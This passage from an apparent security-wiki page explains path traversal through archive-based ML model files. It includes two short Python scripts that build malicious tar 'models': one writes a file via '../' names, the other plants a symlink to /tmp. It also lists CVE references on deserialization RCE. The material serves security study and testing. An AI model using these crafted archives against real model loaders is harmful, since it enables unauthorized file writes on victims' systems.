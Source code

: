 ## Models to Path Traversal

As commented in [**this blog post**](https://blog.huntr.com/pivoting-archive-slip-bugs-into-high-value-ai/ml-bounties), most models formats used by different AI frameworks are based on archives, usually `.zip`. Therefore, it might be possible to abuse these formats to perform path traversal attacks, allowing to read arbitrary files from the system where the model is loaded.

For example, with the following code you can create a model that will create a file in the `/tmp` directory when loaded:

```python
import tarfile

def escape(member):
    member.name = "../../tmp/hacked"     # break out of the extract dir
    return member

with tarfile.open("traversal_demo.model", "w:gz") as tf:
    tf.add("harmless.txt", filter=escape)
```

Or, with the following code you can create a model that will create a symlink to the `/tmp` directory when loaded:

```python
import tarfile, pathlib

TARGET  = "/tmp"        # where the payload will land
PAYLOAD = "abc/hacked"

def link_it(member):
    member.type, member.linkname = tarfile.SYMTYPE, TARGET
    return member

with tarfile.open("symlink_demo.model", "w:gz") as tf:
    tf.add(pathlib.Path(PAYLOAD).parent, filter=link_it)
    tf.add(PAYLOAD)                      # rides the symlink
```

### Deep-dive: Keras .keras deserialization and gadget hunting

For a focused guide on .keras internals, Lambda-layer RCE, the arbitrary import issue in ≤ 3.8, and post-fix gadget discovery inside the allowlist, see:

[[../generic-methodologies-and-resources/python/keras-model-deserialization-rce-and-gadget-hunting.md]]

## References

- [OffSec blog – "CVE-2024-12029 – InvokeAI Deserialization of Untrusted Data"](https://www.offsec.com/blog/cve-2024-12029/)
- [InvokeAI patch commit 756008d](https://github.com/invoke-ai/invokeai/commit/756008dc5899081c5aa51e5bd8f24c1b3975a59e)
- [Rapid7 Metasploit module documentation](https://www.rapid7.com/db/modules/exploit/linux/http/invokeai_rce_cve_2024_12029/)
- [PyTorch – security considerations for torch.load](https://pytorch.org/docs/stable/notes/serialization.html#security)
- [ZDI blog – CVE-2025-23298 Getting Remote Code Execution in NVIDIA Merlin](https://www.thezdi.com/blog/2025/9/23/cve-2025-23298-getting-remote-code-execution-in-nvidia-merlin)
- [ZDI advisory: ZDI-25-833](https://www.zerodayinitiative.com/advisories/ZDI-25-833/)
- [Transformers4Rec patch commit b7eaea5 (PR #802)](https://github.com/NVIDIA-Merlin/Transformers4Rec/pull/802/commits/b7eaea527d6ef46024f0a5086bce4670cc140903)
- [Pre-patch vulnerable loader (gist)](https://gist.github.com/zdi-team/56ad05e8a153c84eb3d742e74400fd10.js)